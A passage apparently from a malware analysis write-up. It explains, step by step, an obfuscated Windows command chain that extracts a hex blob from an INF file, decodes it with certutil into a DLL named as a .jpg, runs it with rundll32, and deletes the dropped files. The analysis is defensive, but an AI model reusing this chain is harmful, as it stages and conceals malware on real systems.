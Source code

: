 so let’s breakdown the executed command

```powershell
%11%\cMd.exe /C morE /E +29 %TEmP%\VN.inf > %TEmP%\cvr.tmp  
 && CERTUtIL -DEcoDEHex %TEmP%\cvr.tmp %TEmP%\xhd.jpg  
 && ruNDLl32 %TEmP%\xhd.jpg,main && del %TEmP%\cvr.tmp  
 && dEL %TEmP%\xhd.jpg && del %TEmP%\VN.inf
```

```powershell
_%11%cmd.exe_
```

%11% referee to system32 path to run `cmd.exe` with admin permission


```powershell
_morE /E +29 %TEmP%\VN.inf_**  **_> %TEmP%\cvr.tmp_
```

this command saves the content of `VN.inf` starting from the end of line 29 till the end of `VN.inf` file to `cvr.tmp` file

```powershell
_CERTUtIL -DEcoDEHex %TEmP%\cvr.tmp %TEmP%\xhd.jpg_
```

this command uses the feature of hex  **decoding** in certutil which is a command-line program that is installed as part of  **Certificate** Services, and saves the result to **xhd.jpg** file which will contain the main payload

```powershell
_ruNDLl32 %TEmP%\xhd.jpg,main_
```

here the TA uses Rundll32 which is used to run a DLL and execute xhd.jpg and the export function here is main which will be executed by rundll32 command

```powershell
_del %TEmP%\cvr.tmp && dEL %TEmP%\xhd.jpg && del %TEmP%\VN.inf_
```

then it will erase his row existence as the process has been executed and delete the 3 dropped files (`VN.inf`, `cvr.tmp`, and `xhd.jpg`).

### Main payload analysis

The dropped file is a 32-bit Dll, and exploring its string I found some interesting ones, that clarify this payload as a Downloader.
